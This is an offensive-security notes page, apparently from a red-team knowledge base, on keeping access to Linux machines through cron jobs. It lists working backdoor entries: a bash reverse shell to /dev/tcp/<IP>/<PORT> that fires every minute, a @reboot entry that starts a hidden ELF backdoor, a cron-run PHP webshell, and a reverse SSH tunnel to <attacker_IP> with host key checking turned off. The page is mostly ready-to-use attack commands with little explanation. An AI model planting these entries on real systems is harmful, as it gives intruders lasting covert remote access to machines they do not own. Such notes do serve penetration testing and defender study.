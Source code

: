 # Living off the Land

## 01 - Conditions

Cron job service must be enabled.

```
$ systemctl status cron.service
```

```
$ sudo systemctl start cron.service
```

```
# /etc/init.d/cron start
```

## 02 - Usage

Open an editor via crontab.

```
$ sudo crontab -e
```

This will execute every minute to trigger the backdoor.

```
$ sudo echo "* * * * * <commands>" >> /etc/crontab

$ echo "* * * * * <commands>" | crontab -

$ crontab -l
```

## 03 - Callback Implants

Reverse Shell Backdoor

```
$ sudo echo "* * * * * /bin/bash -i >& /dev/tcp/<IP>/<PORT> 0>&1" >> /etc/crontab

$ sudo echo "@reboot nohup /home/<username>/.directory/elf_backdoor" >> /etc/crontab
```

Webshell backdoor

```
$ sudo echo "* * * * * php -f /var/www/html/logout.php" >> /etc/crontab
```

## 04 - Reverse SSH Tunnel

Refer to this [[07 - Tactics & Techniques & Procedures (TTPs) Phases/F - Post Exploitation/0x08 - Maintaining Access/Persistence/Linux/Remote Login/SSH/Manual/Living off the Land|section]] for more context.

```
$ sudo "* * * * * nohup ssh -i /tmp/keys/id_rsa -NTfCqR [127.0.0.1]:<SOCKS_Proxy> -o \"UserKnownHostsFile=/dev/null StrictHostKeyChecking=no\" <username>@<attacker_IP>" >> /etc/crontab
```

---
## References

- [[Linux Post Exploitation Persistence References]]

- [Crontab GURU](https://crontab.guru)